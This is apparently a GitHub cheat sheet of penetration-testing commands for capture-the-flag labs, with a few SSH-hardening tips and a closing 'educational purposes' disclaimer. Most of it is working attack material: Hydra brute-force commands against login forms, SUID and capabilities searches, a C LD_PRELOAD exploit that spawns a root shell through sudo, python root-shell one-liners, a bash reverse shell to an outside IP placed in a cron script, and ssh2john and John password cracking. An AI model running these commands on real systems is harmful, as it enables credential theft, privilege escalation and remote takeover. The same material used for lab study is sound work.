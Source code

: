 
### Hydra Commands

```bash
hydra -L usernames.txt -P passwords.txt -v 10.10.80.98 http-post-form "/login.php:username=^USER^&password=^PASS^:Please enter the correct credentials"
```
Without a username 
```bash
hydra -l '' -P 3digits.txt -f -v 10.10.177.254 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

### SSH Security Configuration Recommendations

SSH is the service that faces most of the outside attacks. Securing it is a top priority. Linux servers arrive from the manufacturer with SSH services. There’s plenty here you can configure for increasing security, but these are what we recommend you to start from:

- SSH default port is Port 22. Port 22 is known to have several vulnerabilities, so you better change the default configurations.
- Make sure that the Root account is inaccessible using SSH:
    ```bash
    PermitRootLogin no
    ```
- Password authentication must be replaced with key-based authentication. All this can be configured from /etc/ssh/sshd_config
- Allow some specific users:
    ```bash
    AllowUsers [Username]
    ```

This is just the tip of the ice when configuring SSH, and there is much more you can do. For example, some companies add banners to deter attackers and discourage them from continuing further.

### Important Command linux priviledge escaltion 

```find / -user root -perm /4000
find / -type f -perm /4000
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
find / -user root -perm /4000
find / -type f -perm /4000
find / -type f -perm -04000 -ls 2>/dev/null 
```

## Capibilties

``` getcap -r / 2>/dev/null
```

## Spawing a python shell where you can use clear screen command 
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```


## Finding a particular file 
```
find / -type f -name root.txt 2> /dev/null
```

### Showmount Command

Use the showmount command to see if the remote machine is sharing anything across the network:

```bash
showmount -e <remote-ip>
```

### LD_PRELOAD Environment Exploitation

1. Type: sudo -l
2. Notice that the LD_PRELOAD environment variable is intact.
3. Exploitation:
    ```bash
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
    }
    ```
    - Save the file as x.c
    ```bash
    gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
    sudo LD_PRELOAD=/tmp/x.so apache2
    ```

### Reverse Shell Command

When the Python shell is obtained, you can use the following command to edit the crontab file then use below comamnd :
```bash
echo "bash -c 'bash -i >& /dev/tcp/10.17.88.198/1234 0>&1'" > root.sh
```

### Different Types of Base to identify 

- Base2: 01100010 01110010 01100101 01100001 01101011 01101001 01110100
- Base8: 142 162 145 141 153 151 164
- Base16: 62 72 65 61 6b 69 74
- Base32: MJZGKYLLNF2A====
- Base58: 4jP4KDubX1
- Base62: 22udqyscMu
- Base64: YnJlYWtpdA==
- Base85: @WH$gCM@k
- Base91: %zmfv;:YH

### SSH2John and John Commands

```bash
sudo ssh2john idrsa.id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
```
### Disclaimer 🚨

⚠️ **Disclaimer:** The above content is not owned by me. It has been sourced from the internet for educational purposes only. I do not claim ownership or responsibility for the content provided. Please use it responsibly and in accordance with applicable laws and ethical guidelines.

